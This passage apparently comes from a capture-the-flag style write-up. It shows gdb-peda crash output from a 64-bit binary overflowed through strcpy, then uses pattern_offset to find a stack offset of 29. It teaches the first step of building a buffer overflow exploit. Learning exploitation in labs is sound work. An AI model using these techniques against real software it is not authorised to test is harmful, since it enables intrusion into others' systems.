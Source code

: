 ```

[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdf9a ("allowAAA%A1.1.1.1")
RBX: 0x0
RCX: 0x7ffff7e70031 (<__strcasecmp_l_sse2+2881>:        test   DWORD PTR [rdi+0x66000016],ecx)
RDX: 0x11
RSI: 0x7fffffffde26 ("allowAAA%A1.1.1.1")
RDI: 0x7fffffffdf9a ("allowAAA%A1.1.1.1")
RBP: 0x414441412841412d ('-AA(AADA')
RSP: 0x7fffffffde48 ("A;AA)AAEAAaAA0AAFAAbA\n")   <--
RIP: 0x400b5e (<interactive+271>:       ret)
R8 : 0x7fffffffdd57 --> 0x0
R9 : 0x1
R10: 0xfffffffffffff482
R11: 0x7ffff7f58a60 --> 0xfff20cc0fff20cb0
R12: 0x4007b0 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe090 --> 0x2
R14: 0x0
R15: 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400b57 <interactive+264>:  call   0x4006f0 <strcpy@plt>
   0x400b5c <interactive+269>:  nop
   0x400b5d <interactive+270>:  leave  
=> 0x400b5e <interactive+271>:  ret    
   0x400b5f <main>:     push   rbp
   0x400b60 <main+1>:   mov    rbp,rsp
   0x400b63 <main+4>:   sub    rsp,0x160
   0x400b6a <main+11>:  mov    DWORD PTR [rbp-0x154],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffde48 ("A;AA)AAEAAaAA0AAFAAbA\n")   <--
0008| 0x7fffffffde50 ("AAaAA0AAFAAbA\n")
0016| 0x7fffffffde58 --> 0xa4162414146 ('FAAbA\n')
0024| 0x7fffffffde60 --> 0x7fffffffdfd0 --> 0x200040000
0032| 0x7fffffffde68 --> 0x7ffff7ffe730 --> 0x7ffff7fd3000 (jg     0x7ffff7fd3047)
0040| 0x7fffffffde70 --> 0x0
0048| 0x7fffffffde78 --> 0x7ffff7fdf3af (<_dl_lookup_symbol_x+335>:     add    rsp,0x30)
0056| 0x7fffffffde80 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400b5e in interactive ()

```

In 64-bit, the bad address won’t actually load into RIP, but I can find the offset at the top of the stack, at RSP. I’ve marked it in the output above with `<--`

Now I’ll get the offset:

```

gdb-peda$ pattern_offset A;AA
A;AA found at offset: 29

```
